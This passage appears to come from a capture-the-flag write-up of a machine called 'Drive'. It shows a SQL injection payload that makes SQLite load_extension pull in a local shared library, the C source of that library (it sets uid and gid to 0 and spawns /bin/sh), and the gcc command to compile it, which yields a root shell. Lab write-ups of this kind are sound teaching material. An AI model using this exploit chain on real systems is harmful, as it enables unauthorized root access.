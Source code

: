 ```
"+load_extension(char(46,47,49))--"
```

So now we have our payload but not yet our shared library. As a shared library i chose to make a very easy payload where we just open sh with root privileges

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void _init(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```

next up place the C code file on the machine itself with name **1.c**. Then we compile this using the following gcc command

```bash
gcc -shared 1.c -o 1.so -nostartfiles -fPIC
```

Then after doing this we log back into the application using the credentials we obtained before. Then we load up our sql injection payload. After doing this we should be greeted with an sh shell as root

![SH shell as root](/assets/img/Drive/Drive_26.png)

